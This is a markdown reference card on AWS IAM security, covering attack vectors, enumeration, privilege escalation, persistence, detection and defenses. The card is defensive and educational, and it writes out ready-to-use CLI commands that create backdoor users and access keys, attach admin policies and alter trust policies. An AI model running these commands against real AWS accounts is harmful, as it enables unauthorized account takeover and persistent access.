

#  AWS IAM Security



> **Category**: IDENTITY

Identity and Access Management (IAM) is the foundation of AWS security. IAM controls who can access what resources. Misconfigured policies and exposed credentials are the #1 attack vector.

## Quick Stats

| Risk Level | Scope | Roles, Policies | Temp Creds |
| --- | --- | --- | --- |
| **CRITICAL** | **Global** | **Users** | **STS** |

## Service Overview

### Identity Components

IAM Users represent people or services with long-term credentials. Roles provide temporary credentials and are preferred for applications and cross-account access. Groups organize users for easier management.

> Attack note: Exposed access keys in code repos are the #1 source of AWS compromises

### Policy Evaluation

Policies define permissions using JSON documents. Explicit denies always win, then explicit allows. Identity-based, resource-based, and permission boundaries all combine to determine effective permissions.

> Attack note: Privilege escalation through policy manipulation (CreatePolicyVersion, AttachUserPolicy) is common

## Security Risk Assessment

`██████████` **9.5/10** (CRITICAL)

IAM is the keys to the kingdom. Over-privileged roles, exposed access keys, and weak policies enable full account takeover. Every AWS attack eventually targets IAM for persistence and escalation.

## ⚔️ Attack Vectors

### Credential Exposure

- Access keys in code repositories
- Keys in environment variables
- Hardcoded credentials in scripts
- Keys in CI/CD configurations
- Leaked in logs or error messages

### Permission Abuse

- Over-privileged IAM roles
- Assumable roles from other accounts
- Weak or missing MFA on users
- Long-lived access keys never rotated
- Inline policies with *:*

## ⚠️ Misconfigurations

### Policy Issues

- AdministratorAccess on users/roles
- Action: * with Resource: *
- Trust policy allows external accounts
- No permission boundaries set
- Unused credentials not disabled

### Account Security

- Root account used for daily tasks
- No MFA on privileged users
- Console access without MFA
- No SCPs in Organizations
- Access Analyzer not enabled

## 🔍 Enumeration

**Full IAM Dump**
```bash
aws iam get-account-authorization-details
```

**List Users**
```bash
aws iam list-users
```

**Get User Policies**
```bash
aws iam list-attached-user-policies \\
  --user-name <username>
```

**Get Role Trust Policy**
```bash
aws iam get-role --role-name <role>
```

**Generate Credential Report**
```bash
aws iam generate-credential-report && \\
aws iam get-credential-report
```

## 📈 Privilege Escalation

### Direct Escalation

- iam:CreatePolicyVersion - create admin policy
- iam:SetDefaultPolicyVersion - activate it
- iam:AttachUserPolicy - attach admin policy
- iam:AttachRolePolicy - attach to role
- iam:CreateAccessKey - backdoor user

### Indirect Escalation

- iam:PassRole + lambda:CreateFunction
- iam:PassRole + ec2:RunInstances
- sts:AssumeRole chaining
- iam:UpdateAssumeRolePolicy
- iam:PutUserPolicy inline admin

> **Key insight:** 20+ known IAM privilege escalation paths exist. Check github.com/RhinoSecurityLabs/AWS-IAM-Privilege-Escalation

## 🔗 Persistence

### Credential Persistence

- Create new IAM user
- Add access key to existing user
- Create assumable role
- Modify trust policies
- Add inline policies

### Federation Abuse

- Add SAML identity provider
- Add OIDC identity provider
- Modify existing provider
- Create federation role
- STS assume with web identity

## 🛡️ Detection

### CloudTrail Events

- CreateUser - new user created
- CreateRole - new role created
- CreateAccessKey - new keys
- AttachUserPolicy - policy attached
- UpdateAssumeRolePolicy - trust changed

### Indicators of Compromise

- IAM changes from unknown IPs
- AssumeRole from unexpected accounts
- Credential report anomalies
- Access Analyzer findings
- Policy changes without approvals

## Exploitation Commands

**Create Backdoor Access Key**
```bash
aws iam create-access-key \\
  --user-name <existing-user>
```

**Attach Admin Policy**
```bash
aws iam attach-user-policy \\
  --user-name <user> \\
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

**Assume Role**
```bash
aws sts assume-role \\
  --role-arn arn:aws:iam::TARGET:role/RoleName \\
  --role-session-name pwned
```

**Create Policy Version (Privesc)**
```bash
aws iam create-policy-version \\
  --policy-arn arn:aws:iam::ACCOUNT:policy/MyPolicy \\
  --policy-document file://admin-policy.json \\
  --set-as-default
```

**Create Backdoor User**
```bash
aws iam create-user --user-name backdoor && \\
aws iam attach-user-policy --user-name backdoor \\
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess && \\
aws iam create-access-key --user-name backdoor
```

**Modify Trust Policy**
```bash
aws iam update-assume-role-policy \\
  --role-name TargetRole \\
  --policy-document file://trust-policy.json
```

## Policy Examples

### ❌ Dangerous - Full Admin Access

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": "*",
    "Resource": "*"
  }]
}
```

*AdministratorAccess - complete account takeover if compromised*

### ✅ Secure - Least Privilege

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": ["s3:GetObject", "s3:PutObject"],
    "Resource": "arn:aws:s3:::my-bucket/app-data/*",
    "Condition": {
      "StringEquals": {"aws:PrincipalTag/team": "engineering"}
    }
  }]
}
```

*Scoped to specific actions, resources, and conditions*

### ❌ Dangerous - Trust Anyone

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": "*",
    "Action": "sts:AssumeRole"
  }]
}
```

*Any AWS account can assume this role - full compromise*

### ✅ Secure - Restricted Trust

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": {"AWS": "arn:aws:iam::123456789012:root"},
    "Action": "sts:AssumeRole",
    "Condition": {
      "Bool": {"aws:MultiFactorAuthPresent": "true"},
      "StringEquals": {"sts:ExternalId": "SecretID123"}
    }
  }]
}
```

*Requires MFA and external ID for cross-account access*

## Defense Recommendations

### 🔐 Enforce MFA Everywhere

Require MFA for console access and sensitive API calls.

```bash
"Condition": {"Bool": {"aws:MultiFactorAuthPresent": "true"}}
```

### 🚫 Use Permission Boundaries

Limit maximum permissions any IAM entity can have.

```bash
aws iam put-user-permissions-boundary \\
  --user-name <user> \\
  --permissions-boundary <policy-arn>
```

### 🔒 Rotate Access Keys

90-day maximum age, disable unused keys immediately.

```bash
aws iam update-access-key \\
  --access-key-id <key> --status Inactive
```

### 📝 Enable IAM Access Analyzer

Find external access and unused permissions automatically.

```bash
aws accessanalyzer create-analyzer \\
  --analyzer-name my-analyzer --type ACCOUNT
```

### 🌐 Use SCPs in Organizations

Prevent privilege escalation at the organization level.

```bash
"Effect": "Deny",
"Action": ["iam:CreateUser", "iam:CreateAccessKey"]
```

### 🔍 Secrets Detection in Code

Scan repositories for exposed credentials automatically.

```bash
git-secrets --scan / trufflehog / gitleaks
```

---

*AWS IAM Security Card*

*Always obtain proper authorization before testing*
